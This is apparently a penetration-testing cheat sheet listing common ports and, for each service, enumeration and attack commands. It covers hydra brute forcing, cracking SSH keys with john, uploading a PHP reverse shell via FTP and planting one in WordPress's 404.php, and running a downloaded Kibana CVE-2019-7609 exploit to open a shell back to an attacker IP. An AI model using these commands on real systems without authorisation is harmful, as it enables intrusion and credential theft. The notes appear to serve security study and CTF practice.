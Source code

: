 # Scan 

INPUT
- domain
- host
- url
    - framework
    - WAF
    - database
- network map
     - IPs
     - Ports
     - Services
     - Firewalls
     - Users
- potential vulnerability
PROCESS
- Set Target IP in /etc/hosts
- Find Open Ports
- Find Service and Version behind Open Ports
- Network Scan
- Scan/Enumerate Service
- Scan/Enumerate Platform
TOOLS
- Many tools
- Script
    - [setip]       sudo setip x.x.x.x>
    - [portip]      portip -p-
OUPUT
- Ports
- Services
- service:user:pass
- vulnerability
- exploit
- Reverse shell


# Scan and Enumerate Service

20,21              FTP     File Transfer Protocol                 TCP      
22                 SSH     Secure Shell                           TCP/UDP  
23                 Telnet                                         TCP      
25                 SMTP    Simple Mail Transfer Protocol          TCP      
50,51              IPSec   IPSec                                             
53                 DNS     Domain Name System                     TCP/UDP  
67,68              DHCP    Dynamic Host Configuration Protocol    UDP      
69                 TFTP    Trivial File Transfer Protocol         UDP      
80                 HTTP    HyperText Transfer Protocol            TCP      
110                POP3    Post Office Protocol                   TCP      
111                RPC     Remote Procedure Call                  TCP      
119                NNTP    Network News Transport Protocol        TCP      
123                NTP     Network Time Protocol                  UDP      
135-139                    NetBIOS                                TCP/UDP  
143                IMAP4   Internet Message Access Protocol       TCP/UDP  
161,162            SNMP    Simple Network Management Protocol     TCP/UDP  
389                LDAP    Lightweight Directory Access Protocol  TCP/UDP  
443                HTTPS   HTTP with Secure Sockets Layer, SSL    TCP/UDP  
445                SMB     Server Message Block                   TCP      
465                SMTP    Secure Simple Mail Transfer Protocol   TCP      
995                POP3S   Post Office Protocol                   TCP      
2049               NFS     Network File System                    TCP      
989,990            FTPS    FTP over SSL/TLS (implicit mode)       TCP      
3306               MySql   mysql                                  TCP      
3389               RDP     Remote Desktop Protocol                TCP/UDP  
6379               Redis   Redis                                  TCP      

- SMB
    - [Enum4Linux]
    - [smbclient]
    - [nmap] <nmap --script smb-enum-shares.nse -p445 target.ip>
    - [VULNERABILITIES]
        - [CVE-2017-0143] [ms17-010]
            - Remote Code Execution vulnerability in Microsoft SMBv1 servers
            - https://www.exploit-db.com/exploits/43970
            - https://www.exploit-db.com/exploits/42315
- FTP
    - [ftp]
        - ftp user/anonymous to remote server 
        - put php-reverse-shell.php
    - [hydra]: bruteforce the password of the FTP Server
- Telnet
    - [telnet]
    - [netcat]
- HTTP
    - <p2.1_Scan.http.md>
- NFS
    - [mount]:              Mounting NFS shares <sudo mount -t nfs IP:share /tmp/mount/ -nolock>
- SMTP
    - [msfconsole]
- RPC
    - [nmap]            <nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount target.ip>
    - [rpcinfo]         <rpcinfo target.ip>
    - [showmount]       <showmount -e target.ip>
    - [mount]           <sudo mount -t nfs target.ip:/share /mnt/nfs>
    - [umount]          <sudo umount -f -l /mnt/nfs>
- SSH
    - [ssh]:
        - <ssh user@target.ip -p 22>
        - <ssh -i id_rsa user@target.ip -p 1337>
        - <ssh -i id_rsa -T user@target.ip -p 1337>
    - [hydra]
        - Brute Force Login
    - [nmap] <nmap --script ssh-auth-methods target.ip>
    - [john]
        - ssh2john id_rsa > id_rsa.hash
        - john -w=/usr/share/wordlists/rockyou.txt id_rsa.hash
- MySql
    - [mysql]
        - connet with root:root <mysql -u root -h target.ip -p>
    - [msfconsole]
    - [hydra]
        - Brute Force Login
- Redis
    - [namp] <nmap --script redis-info -sV -p 6379 target.ip>
    - [nc] 
        - <nc -vn 10.10.10.10 6379>
        - INFO
    - [redis-cli]
        - <redis-cli -h target.ip>
        - INFO
        - set password for redis 
            - <config set requirepass p@ss$12E45>
            - SAVE
- POP3
    - [telnet] <telnet target.ip 110>

# Scan and Enumerate Platform
- Wordpress
    - [wpscan]
        - scan
        - brut-force
        - php-reverse-shell to 404.php
        - run 404.php on browser ann get shell
- kibana
    - [CVE-2019-7609] 
        - https://github.com/LandGrey/CVE-2019-7609
        - wget https://raw.githubusercontent.com/LandGrey/CVE-2019-7609/master/CVE-2019-7609-kibana-rce.py
        - python2 CVE-2019-7609-kibana-rce.py -h
        - python2 CVE-2019-7609-kibana-rce.py -u http://target.ip:5601 -host 10.8.56.2 -port 4444 --shell

# References
[//]: # (References)
Vulnerability Scanning Tools and Public Repositories
- [Nessus]
- [Nexpose]
- [OpenVAS]
- [ExploitDB] https://www.exploit-db.com
- [NVD] <https://nvd.nist.gov/vuln/search>
- [Mitre] <https://www.cve.org>
- [OVAL] <https://oval.cisecurity.org/repository>
- [rapid7] <https://www.rapid7.com/db/>
- [favicon] <https://wiki.owasp.org/index.php/OWASP_favicon_database>
- [dencode] <https://dencode.com>
